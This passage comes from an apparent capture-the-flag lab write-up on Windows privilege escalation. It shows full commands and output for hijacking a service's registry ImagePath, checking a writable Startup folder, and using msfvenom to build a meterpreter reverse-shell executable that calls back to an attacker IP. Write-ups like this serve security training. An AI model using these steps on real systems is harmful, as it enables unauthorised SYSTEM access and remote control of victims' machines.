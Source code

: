 ```
C:\Users\TCM>reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath
/t REG_EXPAND_SZ /d c:\temp\x.exe /f
The operation completed successfully.
```

```
C:\Users\TCM>sc start regsvc

SERVICE_NAME: regsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 3400
        FLAGS              :
```

{% hint style="success" %}
No answer needed
{% endhint %}

## Task 6 Service Escalation - Executable Files

{% hint style="success" %}
No answer needed
{% endhint %}

## Task 7 Privilege Escalation - Startup Applications

```
C:\Users\TCM>icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup BUILTIN\Users:(F)
    TCM-PC\TCM:(I)(OI)(CI)(DE,DC)
    NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
    BUILTIN\Administrators:(I)(OI)(CI)(F)
    BUILTIN\Users:(I)(OI)(CI)(RX)
    Everyone:(I)(OI)(CI)(RX)
```

```
kali@kali  ~/Documents/THM/windowsprivescarena  msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.12.198 -f exe -o x.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: x.exe
```
